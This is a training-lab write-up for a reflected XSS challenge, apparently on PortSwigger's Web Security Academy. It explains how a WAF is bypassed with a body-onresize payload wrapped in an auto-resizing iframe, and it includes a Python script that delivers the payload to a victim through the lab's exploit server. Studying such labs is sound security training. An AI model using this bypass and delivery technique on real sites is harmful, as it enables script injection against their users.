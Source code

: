 ```yaml
---
title: 'XSS Lab 14'
description: 'Bypassing WAF restrictions to achieve JavaScript execution with print()'
---
```



## Reflected XSS into HTML context with most tags and attributes blocked

<div style="text-align: justify;">
  This lab demonstrates a reflected cross-site scripting (XSS) vulnerability where a Web Application Firewall (WAF) blocks common tags and attributes. The challenge is to find a non-blocked HTML element and event handler that can be used to trigger the `print()` function without requiring user interaction. The solution relies on using the `<body>` tag with the `onresize` event, embedded via an injected `<iframe>`, to bypass restrictions.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The search functionality reflects unsanitized input into the HTML context.
- Direct attempts like `<img src=1 onerror=print()>` are blocked by the WAF.
- Using Burp Intruder and the PortSwigger XSS cheat sheet, the allowed HTML tags and event attributes are tested.
- The `<body>` tag with `onresize` event bypasses the filter and can trigger `print()`.
- Wrapping the payload inside an `<iframe>` ensures the `resize` event occurs automatically (via CSS width manipulation).
- Delivering this payload through the exploit server causes automatic execution for the victim user.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import sys, time, requests, urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Start Burp (127.0.0.1:8080) and rerun"); sys.exit(1)

def deliver(exploit_server, lab_url):
    head = "HTTP/1.1 200 OK\r\nContent-Type: text/html; charset=utf-8"
    payload = "<iframe src=\"{}/?search=%22%3E%3Cbody%20onresize=print()%3E\" onload=this.style.width='100px'>".format(lab_url)
    data = {"responseBody": payload, "responseHead": head, "formAction":"DELIVER_TO_VICTIM",
            "urlIsHttps":"on","responseFile":"/exploit"}
    try:
        r = requests.post(exploit_server, data=data, verify=False, proxies=proxies, timeout=10)
        r.raise_for_status()
        return True
    except requests.exceptions.RequestException:
        return False

def check_solved(lab_url, tries=5, wait=2):
    s = requests.Session()
    for _ in range(tries):
        try:
            r = s.get(lab_url, verify=False, proxies=proxies, timeout=10)
            if "Congratulations" in r.text or "Solved" in r.text:
                return True
        except requests.exceptions.RequestException:
            pass
        time.sleep(wait)
    return False

if __name__ == "__main__":
    if not (2 <= len(sys.argv) <= 3):
        print(f"Usage: python {sys.argv[0]} <lab-url> [exploit-server]"); sys.exit(1)

    lab = sys.argv[1].rstrip('/')
    if len(sys.argv) == 3:
        exploit = sys.argv[2].rstrip('/')
    else:
        print("Exploit server not provided; exiting.")
        sys.exit(1)

    check_burp()
    print(f"[*] Lab URL: {lab}")
    print(f"[*] Exploit Server: {exploit}/")

    print("[*] Delivering the exploit to the victim.. ", end="", flush=True)
    if deliver(exploit, lab):
        print("[+] OK")
    else:
        print("[-] Delivery failed"); sys.exit(1)

    print("[*] Waiting a moment for the exploit to be delivered and triggered...")
    if check_solved(lab, tries=6, wait=2):
        print("[+] Lab solved 🎉")
    else:
        print("[-] Lab not confirmed as solved")
```